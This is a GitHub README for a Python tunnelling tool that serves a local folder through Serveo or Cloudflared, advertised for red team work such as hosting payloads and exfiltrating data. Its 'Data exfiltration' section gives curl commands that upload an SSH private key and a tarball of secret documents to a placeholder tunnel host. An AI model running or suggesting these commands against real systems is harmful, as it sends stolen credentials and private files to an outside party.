




<h2 align="center">
  🪝 Webhook Server Tunnel
</h2>


 
<p align="center">
    <a href="https://visitorbadge.io/status?path=https%3A%2F%2Fgithub.com%2Fl0n3m4n%2FSearchToolkit">
        
    </a>
    <a href="https://www.facebook.com/UEVOLVJU">
        
    </a>
      <a href="https://www.twitter.com/UEVOLVJU">
        
    </a>
    <a href="https://medium.com/@l0n3m4n">
        
    </a>
    <a href="https://www.buymeacoffee.com/l0n3m4n">
        
    </a>  
    <a href="mailto:ehph@proton.me">
      
    </a>
    <a href="https://github.com/l0n3m4n/SearchToolkit/blob/main/assets/contributing.md">
      
  </a>
</p>
<br/>

This Python script serves a local directory over HTTP and exposes it securely to the internet via a reverse tunnel using either:

- Serveo (SSH-based tunneling)
- Cloudflared (Cloudflare Tunnel)

It’s especially useful for:

- 📁 Hosting payloads or exploits during red team exercises or CTFs
- 📤 Exfiltrating data from compromised targets in a controlled environment via (`https`)
- 🧪 Testing XSS, CSRF, and SSRF vulnerabilities by exposing local endpoints
- 🌐 Simulating external servers during bug bounty engagements
- 💻 Demonstrating proof-of-concepts (PoCs) for file uploads or callbacks
- 🔐 Secure remote access to localhost web apps for testing
- 📡 Bypassing NAT/firewall restrictions without port forwarding



---

## 🚀 Features

- HTTP server using Python's built-in modules
- Logs all request headers to `headers.log`
- Expose server via:
  - 🌐 [Serveo](https://serveo.net)
  - ☁️ [Cloudflared](https://developers.cloudflare.com/cloudflare-one/)
- ANSI-colored terminal output
- Easy to use CLI

---

## 🛠 Requirements

- Python 3.6+
- `cloudflared` (only if Serveo is unavailable)

---

## 📦 Installation

```bash
# Clone the repo
git clone https://github.com/l0n3m4n/webhook.git
cd webhook

# Make it executable
chmod +x webhook.py

# (Optional) Install cloudflared if not using Serveo
sudo apt install cloudflared  # Or follow: https://developers.cloudflare.com/cloudflare-one/connections/connect-apps/install-and-setup/
```

## 🐧 Kali linux (debian,ubuntu)
```bash
# system update
sudo apt update

# dependencies
sudo apt install -y curl gnupg lsb-release

# Add Cloudflare's GPG key
curl -fsSL https://pkg.cloudflare.com/cloudflare-main.gpg | sudo gpg --dearmor -o /usr/share/keyrings/cloudflare-main.gpg

# Add the Cloudflare apt repository
echo "deb [signed-by=/usr/share/keyrings/cloudflare-main.gpg] https://pkg.cloudflare.com/cloudflared $(lsb_release -cs) main" | sudo tee /etc/apt/sources.list.d/cloudflared.list

# Update apt again and Install
sudo apt update && sudo apt install cloudflared -y 
```
## 📡 Usage
```bash
sudo python3 webhook.py -p 8080 -d /var/www/html
```




 

## 🔁 Data exfiltration
```bash
curl -F "file=@/home/user/.ssh/id_rsa" https://abc123.cloudflareTunnel.com/upload

tar czf secrets.tar.gz ~/Documents/secrets
curl -F "file=@secrets.tar.gz" https://abc123.cloudflareTunnel.com/upload

```

## 🔐 Security Notes
- This tool uses SSH for Serveo and a reverse proxy for Cloudflared.
- Ensure you trust any services you expose publicly.

## ✅ TODO List

### 🔌 Tunnel Providers
- [x] Add support for multiple tunneling services:
  - [x] `Serveo`
  - [x] `Cloudflared`
  - [x] `Ngrok`
  - [x] `LocalTunnel`
- [x] Add CLI flags for selecting tunnel provider (e.g., `--serveo`, `--cloudflared`, `--ngrok`)
- [x] Auto-detect and install missing binaries (e.g., `ngrok`, `cloudflared`)

### 🌐 Server Features
- [x] Display public tunnel URL clearly
- [x] Serve files from a specified directory
- [x] Web-based directory listing with download buttons
- [x] File upload support for data exfiltration
- [x] Log incoming HTTP requests (IP, User-Agent, Time)

### ⏱️ Control & Automation
- [ ] Implement auto-shutdown timer
- [ ] Auto-reconnect/restart tunnels on failure
- [ ] Add password protection for server access

### 🧪 Exploitation Helpers
- [ ] Generate payload templates:
  - [ ] XSS (DOM, Reflected, Stored)
  - [ ] CSRF Proof of Concept
  - [ ] LFI/RFI test cases
  - [ ] SSRF test URLs
- [ ] Webhook listener module (e.g., for Blind XSS or SSRF detection)
- [ ] Integrate with Interactsh or Burp Collaborator

### 🛠️ Developer Tools
- [ ] Proxy chaining to local tools like Burp Suite
- [ ] Optional local logging
- [ ] QR code generator for public URLs
- [x] CLI output beautification (colors, banners, progress indicators)

---

> Contributions and suggestions are welcome!
